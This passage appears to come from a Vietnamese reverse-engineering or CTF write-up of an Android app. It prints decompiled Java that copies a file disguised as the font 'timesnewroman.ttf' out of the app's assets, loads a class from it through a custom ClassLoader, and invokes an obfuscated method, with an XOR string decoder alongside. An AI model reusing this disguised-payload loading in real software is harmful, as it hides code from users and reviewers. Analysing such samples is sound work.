 ```java
    public String l1(Context context) {
        String cn = gb(Util.pn1);
        String s = context.getExternalFilesDir(null).getAbsolutePath() + "/" + Util.an;
        try {
            ClassLoader dLoader = getInst(s);
            Class<?> loadedClass = dLoader.loadClass(cn);
            Object obj = loadedClass.newInstance();
            Method m = loadedClass.getMethod(gb("Z2Y="), Context.class);
            String re = (String) m.invoke(obj, context);
            return re;
        } catch (Exception e) {
            e.printStackTrace();
            return e.getMessage();
        }
    }
```

- <b>Hàm `l2` và `l3`</b>: Tương tự `l1`, chỉ thay đội method nên ta sẽ bàn sau

- <b>Hàm `cdx`</b>: Hàm này copy file `timesnewroman.ttf` trong thư mục `assets` của app rồi bỏ vào folder data nếu file đó chưa tồn tại.

```java
    private void cdx(Context context) throws IOException {
        File file = new File(context.getExternalFilesDir(null).getAbsolutePath(), Util.an);
        if (!file.exists()) {
            InputStream mInput = context.getAssets().open(Util.an);
            OutputStream mOutput = new FileOutputStream(file);
            byte[] mBuffer = new byte[4096];
            while (true) {
                int mLength = mInput.read(mBuffer);
                if (mLength > 0) {
                    mOutput.write(mBuffer, 0, mLength);
                } else {
                    mOutput.flush();
                    mOutput.close();
                    mInput.close();
                    return;
                }
            }
        }
    }
```

- <b>Hàm `cdec`</b>: Mã hóa gì đó khá đơn giản, kệ đi!

```java
 public String cdec(String s) {
        StringBuilder htd = new StringBuilder();
        for (int i = 0; i < s.length() - 1; i += 2) {
            try {
                String output = s.substring(i, i + 2);
                int decimal = Integer.parseInt(output, 16);
                htd.append((char) decimal);
            } catch (Exception e) {
                e.printStackTrace();
                return "null";
            }
        }
        StringBuilder r = new StringBuilder();
        int keyItr = 0;
        for (int i2 = 0; i2 < htd.length(); i2++) {
            int temp = htd.charAt(i2) ^ "key".charAt(keyItr);
            r.append((char) temp);
            keyItr++;
            if (keyItr >= "key".length()) {
```